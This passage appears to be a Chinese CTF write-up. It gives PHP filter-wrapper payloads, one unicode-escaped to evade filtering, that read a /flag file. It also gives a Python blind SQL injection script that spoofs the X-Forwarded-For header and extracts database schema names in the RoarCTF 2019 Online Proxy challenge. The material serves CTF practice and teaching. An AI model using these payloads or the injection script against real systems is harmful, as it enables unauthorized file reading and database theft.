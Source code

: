 payload：

> {"page":"php://filter/convert.base64-encode/resource=/flag"}
>
> {"page":"\u0070\u0068\u0070\u003A\u002F\u002F\u0066\u0069\u006C\u0074\u0065\u0072\u002F\u0063\u006F\u006E\u0076\u0065\u0072\u0074\u002E\u0062\u0061\u0073\u0065\u0036\u0034\u002D\u0065\u006E\u0063\u006F\u0064\u0065\u002F\u0072\u0065\u0073\u006F\u0075\u0072\u0063\u0065\u003D\u002F\u0066\u006C\u0061\u0067"}





## [RoarCTF 2019]Online Proxy

不知道什么原因 页面回显极慢，没做，记录下原理

知识点：

1. X-Forwarded-For 伪造
2. 二次注入

```python
import requests
import time

url = "http://node3.buuoj.cn:27406/"
head = {
    "GET": "/ HTTP/1.1",
    "Cookie": "track_uuid=fdb4b6d2-49df-4480-faf2-c1ff21685796",
    "X-Forwarded-For": ""
}

flag = ""
for i in range(1, 100):
    print("第{}个:".format(i), end="")
    l = 1
    r = 127
    mid = (l + r) >> 1     #相当于mid除2取整所得
    while l < r:
        head["X-Forwarded-For"] = "0' or ascii(substr((select group_concat(schema_name) from information_schema.schemata),{0},1))>{1} or '0".format(i, mid)

        html_0 = requests.post(url, headers=head)
        head["X-Forwarded-For"] = "0' or ascii(substr((select group_concat(schema_name) from information_schema.schemata),{0},1))>{1} or '0".format(i, mid + 1)

        html_0 = requests.post(url, headers=head)
        html_0 = requests.post(url, headers=head)

        if "Last Ip: 1" in html_0.text: # 这里判断到的语句为第一个，即`.format(i, mid)`的那个
            l = mid + 1
        else:
            r = mid
        mid = (l + r) >> 1
    if chr(mid) == ' ':
        break
    flag += chr(mid)
    print(flag)
    time.sleep(2)
```
